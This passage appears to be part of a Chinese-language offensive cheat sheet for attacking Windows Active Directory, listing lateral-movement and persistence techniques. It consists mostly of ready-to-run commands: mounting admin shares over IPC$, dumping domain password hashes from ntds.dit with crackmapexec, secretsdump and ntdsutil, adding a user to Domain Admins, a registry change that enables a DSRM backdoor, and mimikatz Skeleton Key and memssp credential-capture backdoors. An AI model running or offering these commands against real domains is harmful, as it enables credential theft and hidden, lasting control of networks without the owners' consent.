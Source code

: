 ## 11.IPC

```
net use \\ip\ipc$ "password" /user:"administrator"
net use \\ip\c$ "password" /user:"administrator"
```

## 12.其他横移

```
1.向WSUS服务器数据库注入恶意程序更新		WSUSpendu.ps1 # 需要先拿下 WSUS 更新分发服务器

2.MSSQL Trusted Links			use exploit/windows/mssql/mssql_linkcrawler

3.GPO Delegation

4.ADCS
```

# 10.权限维持

## 拿到域控权限

dump ntds.dit 文件

```
crackmapexec smb 127.0.0.1 -u <user> -p <password> -d <domain> --ntds

secretsdump.py '<domain>/<user>:<pass>'@<ip>

ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q

secretsdump.py  -ntds ntds_file.dit -system SYSTEM_FILE -hashes lmhash:nthash LOCAL -outputfile ntlm-extract

windows/gather/credentials/domain_hashdump
```

## 后门

```
net group "domain admins" myuser /add /domain

Golden ticket（黄金票据）

Silver Ticket（白银票据）

DSRM 后门：
PowerShell New-ItemProperty “HKLM:\System\CurrentControlSet\Control\Lsa\” -Name “DsrmAdminLogonBehavior” -Value 2 -PropertyType DWORD

Skeleton Key：
mimikatz "privilege::debug" "misc::skeleton" "exit"

自定义 SSP DLL：
mimikatz "privilege::debug" "misc::memssp" "exit"
C:\Windows\System32\kiwissp.log
```
